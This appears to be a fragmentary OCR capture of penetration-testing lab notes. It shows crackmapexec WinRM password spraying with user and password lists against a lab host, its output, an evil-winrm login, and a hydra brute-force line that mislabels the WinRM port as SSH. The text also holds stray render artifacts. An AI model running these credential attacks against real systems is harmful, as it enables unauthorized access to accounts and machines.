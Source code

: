 http://10.129.8.145:5985/wsman

  
  

resource://content-accessible/plaintext.css

  

crackmapexec winrm 10.129.76.14 -u user.list -p password.list

SMB         10.129.76.14    5985   WINSRV           [*] Windows 10.0 Build 17763 (name:WINSRV) (domain:WINSRV)

HTTP        10.129.76.14    5985   WINSRV           [*] http://10.129.76.14:5985/wsman

WINRM       10.129.76.14    5985   WINSRV           [-] WINSRV\user.list:password.list

  
  

evil-winrm -i 10.129.76.14 -u user -p password

  
  
  

hydra -L user.list -P password.list ssh://10.129.76.14/5985

  
  
**